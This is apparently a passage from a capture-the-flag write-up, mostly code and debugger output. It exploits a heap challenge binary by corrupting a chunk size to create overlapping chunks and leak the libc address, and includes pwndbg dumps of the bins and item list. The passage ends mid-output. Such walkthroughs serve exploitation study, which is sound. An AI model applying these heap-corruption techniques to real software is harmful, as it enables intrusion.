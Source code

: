 ```
add(0x68, '1' * 0x68)
add(0xf0, '2' * 0xf0)
add(0x10, '3' * 0x10)

delete(0)
edit(1, 0x68, flat('1' * 0x60, 0x170))
delete(2)
add(0xf0, 'x' * 0x10)
show()
libc.address = u64(p.recvuntil("\x7f")[-6:] + b'\0\0') - 0x3c4b78
print('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff == 0
```
pause before show again, see the chunk to recover it
```python
pause()
show()
```
```gdb -q -p `pidof pwn` -ex "b *0x40099B" -ex "c"```
```
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all [corrupted]
FD: 0x1974120 ◂— 0x171
BK: 0x1974120 —▸ 0x7fd7c6ea0b78 (main_arena+88) ◂— 0x1974120
smallbins
empty
largebins
empty
pwndbg> x/4gx 0x1974120
0x1974120:	0x0000000000000100	0x0000000000000171
0x1974130:	0x00007fd7c6ea0b78	0x00007fd7c6ea0b78
```
recover
```python
add(0x160, '4' * 0x160)
```
then repeat the above, to confirm the index is 4
```python
add(0xf0, 'a' * 0xf0)
add(0x68, 'b' * 0x68)
add(0xf0, 'c' * 0xf0)
add(0x10, 'd' * 0x10)

pause()
delete(0)
```
```gdb -q -p `pidof pwn```
```
pwndbg> telescope 0x6020C0 20
00:0000│   0x6020c0 (itemlist) ◂— 0xf0
01:0008│   0x6020c8 (itemlist+8) —▸ 0x191c030 ◂— 'xxxxxxxxxxxxxxxx'
02:0010│   0x6020d0 (itemlist+16) ◂— 0x68 /* 'h' */
03:0018│   0x6020d8 (itemlist+24) —▸ 0x191c130 ◂— 0x3434343434343434 ('44444444')
04:0020│   0x6020e0 (itemlist+32) ◂— 0x160
05:0028│   0x6020e8 (itemlist+40) —▸ 0x191c130 ◂— 0x3434343434343434 ('44444444')
06:0030│   0x6020f0 (itemlist+48) ◂— 0x10